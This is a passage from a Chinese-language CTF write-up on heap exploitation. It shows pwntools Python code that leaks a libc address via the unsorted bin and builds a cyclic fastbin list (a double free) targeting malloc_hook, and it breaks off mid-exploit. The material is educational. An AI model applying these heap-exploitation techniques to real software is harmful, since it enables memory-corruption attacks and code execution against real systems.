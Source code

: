 #### 泄漏 libc 地址

這裏我們分配一個 small bin 大小的 chunk ，當它被釋放後，就會放入到 unsorted bin 中。因而，只要 `unsorted bin` 的地址的起始字節不是 `\x00` 便可以通過驗證。同時，我們可以構造 `\x00` 來進行比較，從而通過驗證。具體如下

```python
def leak_libc():
    smallbin_sentence = 's' * 0x85 + ' m '
    index_sentence(smallbin_sentence)
    search_word('m')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('y')
    search_word('\x00')
    p.recvuntil('Found ' + str(len(smallbin_sentence)) + ': ')
    unsortedbin_addr = u64(p.recv(8))
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('n')
    return unsortedbin_addr
```

#### 構造 fastbin 循環鏈表

由於我們最後希望在 malloc_hook 處分配 chunk，而一般分配 malloc_hook 附近的 chunk 一般大小都是0x7f。即，我們所需要設置的設置的 fast bin 的數據字節部分的大小爲 0x60。這裏我們按照如下方式構造

1. 分別索引句子a，索引句子b，索引句子c，則此時單詞鏈表中索引的句子的相對順序爲c->b->a。假設句子 a 爲'a' * 0x5d+' d '，句子 b 爲 'b' * 0x5d+' d '，句子c類似。
2. 索引單詞d，三個均刪除，則此時 fastbin 中的鏈表情況爲 a->b->c->NULL，這是因爲首先釋放的是句子c，最後釋放的是句子 a 。這時，搜索單詞時`*i->sentence_ptr` 對於a, b 來說都是可以繞過的。
3. 我們此時再次刪除搜索單詞 `\x00`。首先遍歷的是 c，但是 c 的驗證不通過；其次遍歷的是b，驗證通過，我們將其釋放；其次遍歷的是a，驗證通過，但是我們不刪除。則此時 fastbin 的情況爲 b->a->b->a->...。即已經構成了double free b的情況。由於我們先前爲了 leak libc 還建立一個句子，所以還有一個單詞可以比較，這裏我們也不刪除。

具體代碼如下

```python
    # 2. create cycle fastbin 0x70 size
    index_sentence('a' * 0x5d + ' d ')  #a
    index_sentence('b' * 0x5d + ' d ')  #b
    index_sentence('c' * 0x5d + ' d ')  #c

    # a->b->c->NULL
    search_word('d')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('y')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('y')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('y')

    # b->a->b->a->...
    search_word('\x00')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('y')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('n')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('n')
```
